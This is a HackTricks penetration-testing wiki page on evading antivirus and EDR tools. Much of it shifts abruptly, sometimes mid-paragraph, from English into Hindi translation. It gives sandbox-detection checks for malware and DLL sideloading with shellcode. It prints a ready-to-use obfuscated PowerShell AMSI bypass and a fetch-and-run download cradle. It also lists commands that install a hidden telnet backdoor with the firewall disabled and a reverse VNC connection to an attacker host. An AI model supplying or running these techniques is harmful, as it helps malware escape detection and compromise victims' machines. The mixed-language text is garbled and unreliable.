


# Antivirus (AV) Bypass


Learn & practice AWS Hacking:[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)\
Learn & practice GCP Hacking: [**HackTricks Training GCP Red Team Expert (GRTE)**](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>


<figure><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_फ्लूएंट पोलिश लिखित और मौखिक आवश्यक_).



**This page was written by** [**@m2rc\_p**](https://twitter.com/m2rc_p)**!**

## **AV Evasion Methodology**

Currently, AVs use different methods for checking if a file is malicious or not, static detection, dynamic analysis, and for the more advanced EDRs, behavioural analysis.

### **Static detection**

Static detection is achieved by flagging known malicious strings or arrays of bytes in a binary or script, and also extracting information from the file itself (e.g. file description, company name, digital signatures, icon, checksum, etc.). This means that using known public tools may get you caught more easily, as they've probably been analyzed and flagged as malicious. There are a couple of ways of getting around this sort of detection:

* **Encryption**

If you encrypt the binary, there will be no way for AV of detecting your program, but you will need some sort of loader to decrypt and run the program in memory.

* **Obfuscation**

Sometimes all you need to do is change some strings in your binary or script to get it past AV, but this can be a time-consuming task depending on what you're trying to obfuscate.

* **Custom tooling**

If you develop your own tools, there will be no known bad signatures, but this takes a lot of time and effort.


A good way for checking against Windows Defender static detection is [ThreatCheck](https://github.com/rasta-mouse/ThreatCheck). It basically splits the file into multiple segments and then tasks Defender to scan each one individually, this way, it can tell you exactly what are the flagged strings or bytes in your binary.


I highly recommend you check out this [YouTube playlist](https://www.youtube.com/playlist?list=PLj05gPj8rk_pkb12mDe4PgYZ5qPxhGKGf) about practical AV Evasion.

### **Dynamic analysis**

Dynamic analysis is when the AV runs your binary in a sandbox and watches for malicious activity (e.g. trying to decrypt and read your browser's passwords, performing a minidump on LSASS, etc.). This part can be a bit trickier to work with, but here are some things you can do to evade sandboxes.

* **Sleep before execution** Depending on how it's implemented, it can be a great way of bypassing AV's dynamic analysis. AV's have a very short time to scan files to not interrupt the user's workflow, so using long sleeps can disturb the analysis of binaries. The problem is that many AV's sandboxes can just skip the sleep depending on how it's implemented.
* **Checking machine's resources** Usually Sandboxes have very little resources to work with (e.g. < 2GB RAM), otherwise they could slow down the user's machine. You can also get very creative here, for example by checking the CPU's temperature or even the fan speeds, not everything will be implemented in the sandbox.
* **Machine-specific checks** If you want to target a user who's workstation is joined to the "contoso.local" domain, you can do a check on the computer's domain to see if it matches the one you've specified, if it doesn't, you can make your program exit.

It turns out that Microsoft Defender's Sandbox computername is HAL9TH, so, you can check for the computer name in your malware before detonation, if the name matches HAL9TH, it means you're inside defender's sandbox, so you can make your program exit.

<figure><figcaption><p>source: <a href="https://youtu.be/StSLxFbVz0M?t=1439">https://youtu.be/StSLxFbVz0M?t=1439</a></p></figcaption></figure>

Some other really good tips from [@mgeeky](https://twitter.com/mariuszbit) for going against Sandboxes

<figure><figcaption><p><a href="https://discord.com/servers/red-team-vx-community-1012733841229746240">Red Team VX Discord</a> #malware-dev channel</p></figcaption></figure>

As we've said before in this post, **public tools** will eventually **get detected**, so, you should ask yourself something:

For example, if you want to dump LSASS, **क्या आपको वास्तव में mimikatz का उपयोग करने की आवश्यकता है**? या क्या आप एक अलग प्रोजेक्ट का उपयोग कर सकते हैं जो कम ज्ञात है और LSASS को भी डंप करता है।

The right answer is probably the latter. Taking mimikatz as an example, it's probably one of, if not the most flagged piece of malware by AVs and EDRs, while the project itself is super cool, it's also a nightmare to work with it to get around AVs, so just look for alternatives for what you're trying to achieve.


When modifying your payloads for evasion, make sure to **turn off automatic sample submission** in defender, and please, seriously, **DO NOT UPLOAD TO VIRUSTOTAL** if your goal is achieving evasion in the long run. If you want to check if your payload gets detected by a particular AV, install it on a VM, try to turn off the automatic sample submission, and test it there until you're satisfied with the result.


## EXEs vs DLLs

Whenever it's possible, always **prioritize using DLLs for evasion**, in my experience, DLL files are usually **way less detected** and analyzed, so it's a very simple trick to use in order to avoid detection in some cases (if your payload has some way of running as a DLL of course).

As we can see in this image, a DLL Payload from Havoc has a detection rate of 4/26 in antiscan.me, while the EXE payload has a 7/26 detection rate.

<figure><figcaption><p>antiscan.me comparison of a normal Havoc EXE payload vs a normal Havoc DLL</p></figcaption></figure>

Now we'll show some tricks you can use with DLL files to be much more stealthier.

## DLL Sideloading & Proxying

**DLL Sideloading** takes advantage of the DLL search order used by the loader by positioning both the victim application and malicious payload(s) alongside each other.

You can check for programs susceptible to DLL Sideloading using [Siofra](https://github.com/Cybereason/siofra) and the following powershell script:


```powershell
Get-ChildItem -Path "C:\Program Files\" -Filter *.exe -Recurse -File -Name| ForEach-Object {
$binarytoCheck = "C:\Program Files\" + $_
C:\Users\user\Desktop\Siofra64.exe --mode file-scan --enum-dependency --dll-hijack -f $binarytoCheck
}
```


यह कमांड "C:\Program Files\\" के अंदर DLL हाइजैकिंग के प्रति संवेदनशील प्रोग्रामों की सूची और वे DLL फ़ाइलें जो वे लोड करने की कोशिश करते हैं, आउटपुट करेगा।

मैं अत्यधिक अनुशंसा करता हूँ कि आप **DLL हाइजैक करने योग्य/साइडलोड करने योग्य प्रोग्रामों का स्वयं अन्वेषण करें**, यह तकनीक सही तरीके से की गई तो काफी छिपी हुई होती है, लेकिन यदि आप सार्वजनिक रूप से ज्ञात DLL साइडलोड करने योग्य प्रोग्रामों का उपयोग करते हैं, तो आप आसानी से पकड़े जा सकते हैं।

बस एक दुर्भावनापूर्ण DLL को उस नाम के साथ रखने से जो एक प्रोग्राम लोड करने की अपेक्षा करता है, आपका पेलोड लोड नहीं होगा, क्योंकि प्रोग्राम उस DLL के अंदर कुछ विशिष्ट कार्यों की अपेक्षा करता है, इस समस्या को ठीक करने के लिए, हम एक और तकनीक का उपयोग करेंगे जिसे **DLL प्रॉक्सींग/फॉरवर्डिंग** कहा जाता है।

**DLL प्रॉक्सींग** प्रोग्राम द्वारा प्रॉक्सी (और दुर्भावनापूर्ण) DLL से मूल DLL को किए गए कॉल को आगे बढ़ाता है, इस प्रकार प्रोग्राम की कार्यक्षमता को बनाए रखते हुए आपके पेलोड के निष्पादन को संभालने में सक्षम होता है।

मैं [@flangvik](https://twitter.com/Flangvik/) से [SharpDLLProxy](https://github.com/Flangvik/SharpDllProxy) प्रोजेक्ट का उपयोग करूँगा।

ये वे चरण हैं जिनका मैंने पालन किया:


```
1. Find an application vulnerable to DLL Sideloading (siofra or using Process Hacker)
2. Generate some shellcode (I used Havoc C2)
3. (Optional) Encode your shellcode using Shikata Ga Nai (https://github.com/EgeBalci/sgn)
4. Use SharpDLLProxy to create the proxy dll (.\SharpDllProxy.exe --dll .\mimeTools.dll --payload .\demon.bin)
```


अंतिम कमांड हमें 2 फ़ाइलें देगी: एक DLL स्रोत कोड टेम्पलेट, और मूल नामित DLL।

<figure><figcaption></figcaption></figure>


```
5. Create a new visual studio project (C++ DLL), paste the code generated by SharpDLLProxy (Under output_dllname/dllname_pragma.c) and compile. Now you should have a proxy dll which will load the shellcode you've specified and also forward any calls to the original DLL.
```


ये परिणाम हैं:

<figure><figcaption></figcaption></figure>

हमारा शेलकोड (जिसे [SGN](https://github.com/EgeBalci/sgn) के साथ एन्कोड किया गया) और प्रॉक्सी DLL दोनों का [antiscan.me](https://antiscan.me) में 0/26 डिटेक्शन दर है! मैं इसे एक सफलता कहूंगा।

<figure><figcaption></figcaption></figure>


मैं **गंभीरता से सुझाव देता हूँ** कि आप [S3cur3Th1sSh1t का ट्विच VOD](https://www.twitch.tv/videos/1644171543) DLL Sideloading के बारे में देखें और साथ ही [ippsec का वीडियो](https://www.youtube.com/watch?v=3eROsG_WNpE) भी देखें ताकि आप जो हमने गहराई से चर्चा की है, उसके बारे में और अधिक जान सकें।


## [**Freeze**](https://github.com/optiv/Freeze)

`Freeze एक पेलोड टूलकिट है जो निलंबित प्रक्रियाओं, सीधे syscalls, और वैकल्पिक निष्पादन विधियों का उपयोग करके EDRs को बायपास करने के लिए है`

आप Freeze का उपयोग अपने शेलकोड को छिपे हुए तरीके से लोड और निष्पादित करने के लिए कर सकते हैं।
```
Git clone the Freeze repo and build it (git clone https://github.com/optiv/Freeze.git && cd Freeze && go build Freeze.go)
1. Generate some shellcode, in this case I used Havoc C2.
2. ./Freeze -I demon.bin -encrypt -O demon.exe
3. Profit, no alerts from defender
```
<figure><figcaption></figcaption></figure>


निष्क्रमण केवल एक बिल्ली और चूहा खेल है, जो आज काम करता है वह कल पता लगाया जा सकता है, इसलिए कभी भी केवल एक उपकरण पर निर्भर न रहें, यदि संभव हो, तो कई निष्क्रमण तकनीकों को जोड़ने की कोशिश करें।


## AMSI (एंटी-मैलवेयर स्कैन इंटरफेस)

AMSI "[फाइललेस मैलवेयर](https://en.wikipedia.org/wiki/Fileless_malware)" को रोकने के लिए बनाया गया था। प्रारंभ में, AV केवल **डिस्क पर फ़ाइलों** को स्कैन करने में सक्षम थे, इसलिए यदि आप किसी तरह **प्रत्यक्ष रूप से मेमोरी में** पेलोड निष्पादित कर सकते थे, तो AV इसे रोकने के लिए कुछ नहीं कर सकता था, क्योंकि इसके पास पर्याप्त दृश्यता नहीं थी।

AMSI सुविधा Windows के इन घटकों में एकीकृत है।

* उपयोगकर्ता खाता नियंत्रण, या UAC (EXE, COM, MSI, या ActiveX स्थापना का उन्नयन)
* PowerShell (स्क्रिप्ट, इंटरैक्टिव उपयोग, और गतिशील कोड मूल्यांकन)
* Windows स्क्रिप्ट होस्ट (wscript.exe और cscript.exe)
* JavaScript और VBScript
* Office VBA मैक्रोज़

यह एंटीवायरस समाधानों को स्क्रिप्ट व्यवहार की जांच करने की अनुमति देता है, स्क्रिप्ट सामग्री को एक रूप में उजागर करके जो न तो एन्क्रिप्टेड है और न ही अस्पष्ट।

`IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')` चलाने पर Windows Defender पर निम्नलिखित अलर्ट उत्पन्न होगा।

<figure><figcaption></figcaption></figure>

ध्यान दें कि यह `amsi:` को पहले जोड़ता है और फिर उस निष्पादन योग्य का पथ जोड़ता है जिससे स्क्रिप्ट चलाई गई, इस मामले में, powershell.exe

हमने डिस्क पर कोई फ़ाइल नहीं गिराई, लेकिन फिर भी AMSI के कारण मेमोरी में पकड़े गए।

AMSI को बायपास करने के कुछ तरीके हैं:

* **अस्पष्टता**

चूंकि AMSI मुख्य रूप से स्थिर पहचान के साथ काम करता है, इसलिए, आप जो स्क्रिप्ट लोड करने की कोशिश कर रहे हैं, उन्हें संशोधित करना पहचान से बचने का एक अच्छा तरीका हो सकता है।

हालांकि, AMSI के पास स्क्रिप्ट को अस्पष्ट करने की क्षमता है, भले ही इसमें कई परतें हों, इसलिए अस्पष्टता एक बुरा विकल्प हो सकता है, यह इस बात पर निर्भर करता है कि इसे कैसे किया गया है। यह इसे बायपास करना इतना सीधा नहीं बनाता। हालांकि, कभी-कभी, आपको केवल कुछ चर नाम बदलने की आवश्यकता होती है और आप ठीक हो जाएंगे, इसलिए यह इस बात पर निर्भर करता है कि किसी चीज़ को कितना झंडा लगाया गया है।

* **AMSI बायपास**

चूंकि AMSI को powershell (साथ ही cscript.exe, wscript.exe, आदि) प्रक्रिया में एक DLL लोड करके लागू किया गया है, इसलिए इसे आसानी से छेड़छाड़ करना संभव है, भले ही एक अप्रिविलेज्ड उपयोगकर्ता के रूप में चलाया जाए। AMSI के कार्यान्वयन में इस दोष के कारण, शोधकर्ताओं ने AMSI स्कैनिंग से बचने के कई तरीके खोजे हैं।

**एक त्रुटि को मजबूर करना**

AMSI प्रारंभिककरण को विफल (amsiInitFailed) करने के लिए मजबूर करने से वर्तमान प्रक्रिया के लिए कोई स्कैन शुरू नहीं होगा। मूल रूप से, इसे [Matt Graeber](https://twitter.com/mattifestation) द्वारा प्रकट किया गया था और Microsoft ने व्यापक उपयोग को रोकने के लिए एक हस्ताक्षर विकसित किया है।


```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```


यह सब एक पावरशेल कोड की एक पंक्ति थी जिसने वर्तमान पावरशेल प्रक्रिया के लिए AMSI को अनुपयोगी बना दिया। इस पंक्ति को निश्चित रूप से AMSI द्वारा चिह्नित किया गया है, इसलिए इस तकनीक का उपयोग करने के लिए कुछ संशोधन की आवश्यकता है।

यहां एक संशोधित AMSI बायपास है जो मैंने इस [Github Gist](https://gist.github.com/r00t-3xp10it/a0c6a368769eec3d3255d4814802b5db) से लिया है।
```powershell
Try{#Ams1 bypass technic nº 2
$Xdatabase = 'Utils';$Homedrive = 'si'
$ComponentDeviceId = "N`onP" + "ubl`ic" -join ''
$DiskMgr = 'Syst+@.M£n£g' + 'e@+nt.Auto@' + '£tion.A' -join ''
$fdx = '@ms' + '£In£' + 'tF@£' + 'l+d' -Join '';Start-Sleep -Milliseconds 300
$CleanUp = $DiskMgr.Replace('@','m').Replace('£','a').Replace('+','e')
$Rawdata = $fdx.Replace('@','a').Replace('£','i').Replace('+','e')
$SDcleanup = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $CleanUp,$Homedrive,$Xdatabase))
$Spotfix = $SDcleanup.GetField($Rawdata,"$ComponentDeviceId,Static")
$Spotfix.SetValue($null,$true)
}Catch{Throw $_}
```
Keep in mind, that this will probably get flagged once this post comes out, so you should not publish any code if your plan is staying undetected.

**Memory Patching**

यह तकनीक मूल रूप से [@RastaMouse](https://twitter.com/_RastaMouse/) द्वारा खोजी गई थी और इसमें amsi.dll में "AmsiScanBuffer" फ़ंक्शन के लिए पता लगाना शामिल है (जो उपयोगकर्ता द्वारा प्रदान किए गए इनपुट को स्कैन करने के लिए जिम्मेदार है) और इसे E\_INVALIDARG के लिए कोड लौटाने के लिए निर्देशों के साथ ओवरराइट करना शामिल है, इस तरह, वास्तविक स्कैन का परिणाम 0 लौटेगा, जिसे एक साफ परिणाम के रूप में व्याख्यायित किया जाता है।


कृपया अधिक विस्तृत व्याख्या के लिए [https://rastamouse.me/memory-patching-amsi-bypass/](https://rastamouse.me/memory-patching-amsi-bypass/) पढ़ें।


AMSI को बायपास करने के लिए PowerShell के साथ उपयोग की जाने वाली कई अन्य तकनीकें भी हैं, उनके बारे में अधिक जानने के लिए [**इस पृष्ठ**](basic-powershell-for-pentesters/#amsi-bypass) और [इस रिपॉजिटरी](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell) पर जाएं।

या यह स्क्रिप्ट जो मेमोरी पैचिंग के माध्यम से प्रत्येक नए PowerShell को पैच करेगी।

## Obfuscation

कई उपकरण हैं जो **C# स्पष्ट-टेक्स्ट कोड को अस्पष्ट करने**, बाइनरी को संकलित करने के लिए **मेटाप्रोग्रामिंग टेम्पलेट्स** उत्पन्न करने या **संकलित बाइनरी को अस्पष्ट करने** के लिए उपयोग किए जा सकते हैं जैसे:

* [**InvisibilityCloak**](https://github.com/h4wkst3r/InvisibilityCloak)**: C# अस्पष्टता उपकरण**
* [**Obfuscator-LLVM**](https://github.com/obfuscator-llvm/obfuscator): इस परियोजना का उद्देश्य [LLVM](http://www.llvm.org/) संकलन सूट का एक ओपन-सोर्स फोर्क प्रदान करना है जो [कोड अस्पष्टता](http://en.wikipedia.org/wiki/Obfuscation_\(software\)) और टेम्पर-प्रूफिंग के माध्यम से सॉफ़्टवेयर सुरक्षा बढ़ा सके।
* [**ADVobfuscator**](https://github.com/andrivet/ADVobfuscator): ADVobfuscator दिखाता है कि `C++11/14` भाषा का उपयोग करके, संकलन के समय, बिना किसी बाहरी उपकरण का उपयोग किए और संकलक को संशोधित किए बिना, अस्पष्ट कोड कैसे उत्पन्न किया जाए।
* [**obfy**](https://github.com/fritzone/obfy): C++ टेम्पलेट मेटाप्रोग्रामिंग ढांचे द्वारा उत्पन्न अस्पष्ट संचालन की एक परत जोड़ें जो एप्लिकेशन को क्रैक करने की कोशिश कर रहे व्यक्ति के लिए जीवन को थोड़ा कठिन बना देगी।
* [**Alcatraz**](https://github.com/weak1337/Alcatraz)**:** Alcatraz एक x64 बाइनरी अस्पष्टता उपकरण है जो विभिन्न प्रकार की pe फ़ाइलों को अस्पष्ट करने में सक्षम है, जिसमें: .exe, .dll, .sys शामिल हैं।
* [**metame**](https://github.com/a0rtega/metame): Metame एक साधारण मेटामॉर्फिक कोड इंजन है जो मनमाने निष्पादन योग्य के लिए है।
* [**ropfuscator**](https://github.com/ropfuscator/ropfuscator): ROPfuscator एक बारीक-ग्रेन कोड अस्पष्टता ढांचा है जो ROP (रिटर्न-ओरिएंटेड प्रोग्रामिंग) का उपयोग करता है। ROPfuscator एक कार्यक्रम को असेंबली कोड स्तर पर अस्पष्ट करता है, सामान्य नियंत्रण प्रवाह की हमारी स्वाभाविक धारणा को बाधित करता है।
* [**Nimcrypt**](https://github.com/icyguider/nimcrypt): Nimcrypt एक .NET PE क्रिप्टर है जो Nim में लिखा गया है।
* [**inceptor**](https://github.com/klezVirus/inceptor)**:** Inceptor मौजूदा EXE/DLL को शेलकोड में परिवर्तित करने और फिर उन्हें लोड करने में सक्षम है।

## SmartScreen & MoTW

आपने इंटरनेट से कुछ निष्पादन योग्य फ़ाइलें डाउनलोड करते समय और उन्हें निष्पादित करते समय यह स्क्रीन देखी होगी।

Microsoft Defender SmartScreen एक सुरक्षा तंत्र है जिसका उद्देश्य अंतिम उपयोगकर्ता को संभावित रूप से दुर्भावनापूर्ण अनुप्रयोगों को चलाने से बचाना है।

<figure><figcaption></figcaption></figure>

SmartScreen मुख्य रूप से एक प्रतिष्ठा-आधारित दृष्टिकोण के साथ काम करता है, जिसका अर्थ है कि असामान्य रूप से डाउनलोड की गई अनुप्रयोग SmartScreen को सक्रिय करेगी, इस प्रकार अंतिम उपयोगकर्ता को फ़ाइल निष्पादित करने से रोक देगी (हालांकि फ़ाइल को अभी भी More Info -> Run anyway पर क्लिक करके निष्पादित किया जा सकता है)।

**MoTW** (Mark of The Web) एक [NTFS वैकल्पिक डेटा स्ट्रीम](https://en.wikipedia.org/wiki/NTFS#Alternate_data_stream_\(ADS\)) है जिसका नाम Zone.Identifier है, जो इंटरनेट से फ़ाइलें डाउनलोड करते समय स्वचालित रूप से बनाई जाती है, साथ ही उस URL के साथ जिससे इसे डाउनलोड किया गया था।

<figure><figcaption><p>इंटरनेट से डाउनलोड की गई फ़ाइल के लिए Zone.Identifier ADS की जांच करना।</p></figcaption></figure>


यह ध्यान रखना महत्वपूर्ण है कि **विश्वसनीय** साइनिंग सर्टिफिकेट के साथ साइन की गई निष्पादन योग्य फ़ाइलें **SmartScreen को सक्रिय नहीं करेंगी**।


आपके पेलोड को Mark of The Web से बचाने का एक बहुत प्रभावी तरीका उन्हें किसी प्रकार के कंटेनर जैसे ISO के अंदर पैकेज करना है। ऐसा इसलिए होता है क्योंकि Mark-of-the-Web (MOTW) **नहीं** लागू किया जा सकता **गैर NTFS** वॉल्यूम पर।

<figure><figcaption></figcaption></figure>

[**PackMyPayload**](https://github.com/mgeeky/PackMyPayload/) एक उपकरण है जो पेलोड को आउटपुट कंटेनरों में पैकेज करता है ताकि Mark-of-the-Web से बचा जा सके।

Example usage:
```powershell
PS C:\Tools\PackMyPayload> python .\PackMyPayload.py .\TotallyLegitApp.exe container.iso

+      o     +              o   +      o     +              o
+             o     +           +             o     +         +
o  +           +        +           o  +           +          o
-_-^-^-^-^-^-^-^-^-^-^-^-^-^-^-^-^-_-_-_-_-_-_-_,------,      o
:: PACK MY PAYLOAD (1.1.0)       -_-_-_-_-_-_-|   /\_/\
for all your container cravings   -_-_-_-_-_-~|__( ^ .^)  +    +
-_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-__-_-_-_-_-_-_-''  ''
+      o         o   +       o       +      o         o   +       o
+      o            +      o    ~   Mariusz Banach / mgeeky    o
o      ~     +           ~          <mb [at] binary-offensive.com>
o           +                         o           +           +

[.] Packaging input file to output .iso (iso)...
Burning file onto ISO:
Adding file: /TotallyLegitApp.exe

[+] Generated file written to (size: 3420160): container.iso
```
Here is a demo for bypassing SmartScreen by packaging payloads inside ISO files using [PackMyPayload](https://github.com/mgeeky/PackMyPayload/)

<figure><figcaption></figcaption></figure>

## C# Assembly Reflection

C# बाइनरीज़ को मेमोरी में लोड करना काफी समय से जाना जाता है और यह अभी भी आपके पोस्ट-एक्सप्लॉइटेशन टूल्स को AV द्वारा पकड़े जाने के बिना चलाने का एक बहुत अच्छा तरीका है।

चूंकि पेलोड सीधे मेमोरी में लोड होगा बिना डिस्क को छुए, हमें पूरे प्रक्रिया के लिए केवल AMSI को पैच करने की चिंता करनी होगी।

अधिकांश C2 फ्रेमवर्क (sliver, Covenant, metasploit, CobaltStrike, Havoc, आदि) पहले से ही मेमोरी में सीधे C# असेंबली को निष्पादित करने की क्षमता प्रदान करते हैं, लेकिन ऐसा करने के विभिन्न तरीके हैं:

* **Fork\&Run**

इसमें **एक नया बलिदान प्रक्रिया उत्पन्न करना** शामिल है, अपने पोस्ट-एक्सप्लॉइटेशन दुर्भावनापूर्ण कोड को उस नए प्रक्रिया में इंजेक्ट करना, अपने दुर्भावनापूर्ण कोड को निष्पादित करना और जब समाप्त हो जाए, तो नए प्रक्रिया को मारना। इसके अपने लाभ और हानियाँ हैं। फोर्क और रन विधि का लाभ यह है कि निष्पादन हमारे बीकन इम्प्लांट प्रक्रिया के **बाहर** होता है। इसका मतलब है कि यदि हमारे पोस्ट-एक्सप्लॉइटेशन क्रिया में कुछ गलत हो जाता है या पकड़ा जाता है, तो हमारे **इम्प्लांट के जीवित रहने की संभावना** **बहुत अधिक है।** हानि यह है कि आपको **व्यवहारात्मक पहचान** द्वारा पकड़े जाने की **अधिक संभावना** है।

<figure><figcaption></figcaption></figure>

* **Inline**

यह अपने पोस्ट-एक्सप्लॉइटेशन दुर्भावनापूर्ण कोड को **अपने ही प्रक्रिया में इंजेक्ट करने** के बारे में है। इस तरह, आप एक नया प्रक्रिया बनाने और उसे AV द्वारा स्कैन कराए बिना बच सकते हैं, लेकिन हानि यह है कि यदि आपके पेलोड के निष्पादन में कुछ गलत होता है, तो आपके **बीकन को खोने की संभावना** **बहुत अधिक है** क्योंकि यह क्रैश हो सकता है।

<figure><figcaption></figcaption></figure>


यदि आप C# असेंबली लोडिंग के बारे में अधिक पढ़ना चाहते हैं, तो कृपया इस लेख को देखें [https://securityintelligence.com/posts/net-execution-inlineexecute-assembly/](https://securityintelligence.com/posts/net-execution-inlineexecute-assembly/) और उनके InlineExecute-Assembly BOF ([https://github.com/xforcered/InlineExecute-Assembly](https://github.com/xforcered/InlineExecute-Assembly))


आप C# असेंबलीज़ को **PowerShell से भी लोड कर सकते हैं**, [Invoke-SharpLoader](https://github.com/S3cur3Th1sSh1t/Invoke-SharpLoader) और [S3cur3th1sSh1t का वीडियो](https://www.youtube.com/watch?v=oe11Q-3Akuk) देखें।

## अन्य प्रोग्रामिंग भाषाओं का उपयोग करना

जैसा कि [**https://github.com/deeexcee-io/LOI-Bins**](https://github.com/deeexcee-io/LOI-Bins) में प्रस्तावित किया गया है, यह अन्य भाषाओं का उपयोग करके दुर्भावनापूर्ण कोड निष्पादित करना संभव है, जब आप समझौता की गई मशीन को **हमलावर द्वारा नियंत्रित SMB शेयर पर स्थापित इंटरप्रेटर वातावरण तक पहुंच** देते हैं।

इंटरप्रेटर बाइनरीज़ और SMB शेयर पर वातावरण तक पहुंच प्रदान करके आप **समझौता की गई मशीन की मेमोरी में इन भाषाओं में मनमाना कोड निष्पादित कर सकते हैं।**

रेपो इंगित करता है: डिफेंडर अभी भी स्क्रिप्ट को स्कैन करता है लेकिन Go, Java, PHP आदि का उपयोग करके हमारे पास **स्थिर हस्ताक्षरों को बायपास करने के लिए अधिक लचीलापन है।** इन भाषाओं में यादृच्छिक अन-ऑबफस्केटेड रिवर्स शेल स्क्रिप्ट के साथ परीक्षण सफल साबित हुआ है।

## उन्नत बचाव

बचाव एक बहुत जटिल विषय है, कभी-कभी आपको एक ही प्रणाली में कई विभिन्न टेलीमेट्री स्रोतों पर विचार करना पड़ता है, इसलिए परिपक्व वातावरण में पूरी तरह से अदृश्य रहना लगभग असंभव है।

आप जिस भी वातावरण का सामना करेंगे, उसके अपने ताकत और कमजोरियाँ होंगी।

मैं आपको [@ATTL4S](https://twitter.com/DaniLJ94) से इस वार्ता को देखने की अत्यधिक सिफारिश करता हूँ, ताकि आप अधिक उन्नत बचाव तकनीकों में एक पैर रख सकें।



यह [@mariuszbit](https://twitter.com/mariuszbit) से बचाव की गहराई पर एक और शानदार वार्ता है।



## **पुरानी तकनीकें**

### **जांचें कि डिफेंडर कौन से भागों को दुर्भावनापूर्ण मानता है**

आप [**ThreatCheck**](https://github.com/rasta-mouse/ThreatCheck) का उपयोग कर सकते हैं जो **बाइनरी के भागों को हटा देगा** जब तक कि यह **नहीं पता चलता कि डिफेंडर** किस भाग को दुर्भावनापूर्ण मानता है और इसे आपके लिए विभाजित करता है।\
एक और उपकरण जो **समान कार्य करता है वह है** [**avred**](https://github.com/dobin/avred) जिसमें [**https://avred.r00ted.ch/**](https://avred.r00ted.ch/) पर सेवा प्रदान की जाती है।

### **Telnet सर्वर**

Windows10 तक, सभी Windows में एक **Telnet सर्वर** था जिसे आप (व्यवस्थापक के रूप में) स्थापित कर सकते थे:
```bash
pkgmgr /iu:"TelnetServer" /quiet
```
सिस्टम के शुरू होने पर इसे **शुरू** करें और इसे अब **चलाएं**:
```bash
sc config TlntSVR start= auto obj= localsystem
```
**टेलनेट पोर्ट बदलें** (छिपा हुआ) और फ़ायरवॉल बंद करें:
```
tlntadmn config port=80
netsh advfirewall set allprofiles state off
```
### UltraVNC

इसे डाउनलोड करें: [http://www.uvnc.com/downloads/ultravnc.html](http://www.uvnc.com/downloads/ultravnc.html) (आपको बिन डाउनलोड चाहिए, सेटअप नहीं)

**होस्ट पर**: _**winvnc.exe**_ को चलाएं और सर्वर को कॉन्फ़िगर करें:

* विकल्प _Disable TrayIcon_ को सक्षम करें
* _VNC Password_ में एक पासवर्ड सेट करें
* _View-Only Password_ में एक पासवर्ड सेट करें

फिर, बाइनरी _**winvnc.exe**_ और **नए** बनाए गए फ़ाइल _**UltraVNC.ini**_ को **पीड़ित** के अंदर ले जाएं

#### **रिवर्स कनेक्शन**

**हमलावर** को अपने **होस्ट** के अंदर बाइनरी `vncviewer.exe -listen 5900` चलानी चाहिए ताकि यह रिवर्स **VNC कनेक्शन** को पकड़ने के लिए **तैयार** हो सके। फिर, **पीड़ित** के अंदर: winvnc डेमन शुरू करें `winvnc.exe -run` और चलाएं `winwnc.exe [-autoreconnect] -connect <attacker_ip>::5900`

**चेतावनी:** छिपे रहने के लिए आपको कुछ चीजें नहीं करनी चाहिए

